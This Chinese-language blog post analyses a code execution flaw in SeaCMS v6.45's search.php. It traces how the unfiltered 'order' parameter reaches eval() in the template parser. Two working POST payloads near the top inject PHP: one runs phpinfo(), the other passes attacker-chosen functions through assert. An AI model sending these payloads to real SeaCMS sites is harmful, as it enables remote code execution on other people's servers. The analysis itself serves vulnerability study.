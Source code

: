 ```yaml
---
title: SeaCMS v6.45前台代码执行漏洞分析
date: 2018-08-06 23:13:22
tags:
	- 代码审计
	- 代码执行
---
```


SeaCMS没有使用框架，比较适合练习。

<!-- more -->

### 1. 源码下载

```
链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw

密码：cd48
```

### 2. POC

第一种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
```

第二种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)print_r($_POST[a]($_POST[b]));//}{end if}&a=assert&b=phpinfo();
```

效果图

![](http://osn75zd5c.bkt.clouddn.com/18-8-6/49244924.jpg)

### 3. 漏洞原理分析

#### 3.1 代码执行简单流程

![](http://osn75zd5c.bkt.clouddn.com/18-8-6/81792070.jpg)

#### 3.2 详细分析

代码执行的原因是`$order`参数没做严格的限制，就将其传入了模板文件中，然后使用`eval()`执行模板中包含`$order`的代码。

 首先，在文件`seacms/search.php`中，包含了文件`seacms/include/common.php`,在`common.php`中第45-48行，将GET,POST等请求传入的全局变量中的键值对转换成变量，并对其中的值使用`addslashes()`进行处理。

```
function _RunMagicQuotes(&$svar)
{
	if(!get_magic_quotes_gpc())
	{
		if( is_array($svar) )
		{
			foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
		}
		else
		{
			$svar = addslashes($svar); # 转义单引号、双引号、反斜线、NULL
		}
	}
	return $svar;
}
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
	foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

然后在`seacms/search.php`文件的`echoSearchPage()`函数中，也就是文件第63行，将变量注册成全局变量。

```
global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
```

可以看到，在`search.php`中，执行`echoSearchPage()`函数之前，没有对`$order`变量进行处理。

接着往下看，在`echoSearchPage()`函数中，使用`$searchtype`来选择使用的模板文件。

```
if(intval($searchtype)==5)
	{
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/cascade.html";
		$typeStr = !empty($tid)?intval($tid).'_':'0_';
		$yearStr = !empty($year)?PinYin($year).'_':'0_';
		$letterStr = !empty($letter)?$letter.'_':'0_';
		$areaStr = !empty($area)?PinYin($area).'_':'0_';
		$orderStr = !empty($order)?$order.'_':'0_';
		$jqStr = !empty($jq)?$jq.'_':'0_';
		$cacheName="parse_cascade_".$typeStr.$yearStr.$letterStr.$areaStr.$orderStr;
		$pSize = getPageSizeOnCache($searchTemplatePath,"cascade","");
	}else
	{
		if($cfg_search_time&&$page==1) checkSearchTimes($cfg_search_time);
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/search.html";
		$cacheName="parse_search_";
		$pSize = getPageSizeOnCache($searchTemplatePath,"search","");
	}
```

当值是5时，会使用`cascade.html`，文件目录为`seacms\templets\default\html\cascade.html`，若不是，则会使用`earch.html`，文件目录为`seacms\templets\default\html\search.html`。

下面153行，将模板文件读取到`$content`变量中，接着在155-173行替换标签。其中第158行使用`$order`替换了模板中`{searchpage:ordername}`标签。然后分别搜索`search.html`和`cascade.html`，只有`cascade.html`第79-81行存在该标签。

```
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
<a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
<a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
```

因此，必须要`$searchtype==5`。

接着往下走，在第212行

```
$content=$mainClassObj->parseIf($content);
```

跟进去，在`seacms\include\main.class.php`中第3098-3147行中。

```
function parseIf($content)
{
    if (strpos($content, '{if:') === false) {
        return $content;
    } else {
        $labelRule = buildregx("{if:(.*?)}(.*?){end if}", "is");
        $labelRule2 = "{elseif";
        $labelRule3 = "{else}";
        preg_match_all($labelRule, $content, $iar);
        $arlen = count($iar[0]);
        $elseIfFlag = false;
        for ($m = 0; $m < $arlen; $m++) {
            $strIf = $iar[1][$m];
            $strIf = $this->parseStrIf($strIf);
            $strThen = $iar[2][$m];
            $strThen = $this->parseSubIf($strThen);
            if (strpos($strThen, $labelRule2) === false) {
                if (strpos($strThen, $labelRule3) >= 0) {
                    $elsearray = explode($labelRule3, $strThen);
                    $strThen1 = $elsearray[0];
                    $strElse1 = $elsearray[1];
                    @eval("if(" . $strIf . "){\$ifFlag=true;}else{\$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen1, $content);
                    } else {
                        $content = str_replace($iar[0][$m], $strElse1, $content);
                    }
                } else {
                    @eval("if(" . $strIf . ") { \$ifFlag=true;} else{ \$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen, $content);
                    } else {
                        $content = str_replace($iar[0][$m], "", $content);
                    }
                }
            } else {
                $elseIfArray = explode($labelRule2, $strThen);
                $elseIfArrayLen = count($elseIfArray);
                $elseIfSubArray = explode($labelRule3, $elseIfArray[$elseIfArrayLen - 1]);
                $resultStr = $elseIfSubArray[1];
                $elseIfArraystr0 = addslashes($elseIfArray[0]);
                @eval("if({$strIf}){\$resultStr=\"{$elseIfArraystr0}\";}");
                for ($elseIfLen = 1; $elseIfLen < $elseIfArrayLen; $elseIfLen++) {
                    $strElseIf = getSubStrByFromAndEnd($elseIfArray[$elseIfLen], ":", "}", "");
                    $strElseIf = $this->parseStrIf($strElseIf);
                    $strElseIfThen = addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen], "}", "", "start"));
                    @eval("if(" . $strElseIf . "){\$resultStr=\"{$strElseIfThen}\";}");
                    @eval("if(" . $strElseIf . "){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                    if ($elseIfFlag) {
                        break;
                    }
                }
                $strElseIf0 = getSubStrByFromAndEnd($elseIfSubArray[0], ":", "}", "");
                $strElseIfThen0 = addslashes(getSubStrByFromAndEnd($elseIfSubArray[0], "}", "", "start"));
                if (strpos($strElseIf0, '==') === false && strpos($strElseIf0, '=') > 0) {
                    $strElseIf0 = str_replace('=', '==', $strElseIf0);
                }
                @eval("if(" . $strElseIf0 . "){\$resultStr=\"{$strElseIfThen0}\";\$elseIfFlag=true;}");
                $content = str_replace($iar[0][$m], $resultStr, $content);
            }
        }
        return $content;
    }
}
```

可以看到下面存在`eval()`函数来执行代码，要想进入到`eval()`，`$content`中必须含有`{if:`字符串。

然后是正则，

```
$labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
preg_match_all($labelRule,$content,$iar);
```

看代码执行流程，在`eval()`函数中，`$strIf`就是之前`preg_match_all()`中第一个`(.*?)`匹配出来的值。

```
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

在`eval()`中，要闭合前面的if语句，可以构造`1)phpinfo();if(1`，又要符合正则`{if:(.*?)}(.*?){end if}`，再看标签：

```
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
```

由于`$order`替换的是`{searchpage:ordername}`，所以，在`1)phpinfo();if(1`基础上添加。

```
}{end if}{if:1)phpinfo();if(1}{end if}
```

漏洞利用的基本流程就是这样，简单来说，就是有个可控的变量没有经过过滤，就被带入了`eval()`中，导致了代码执行。

###  4. 参考

[SeaCMS v6.45前台Getshell 代码执行 ](https://github.com/SecWiki/CMS-Hunter/tree/master/seacms/SeaCMS%20v6.45%E5%89%8D%E5%8F%B0Getshell%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)
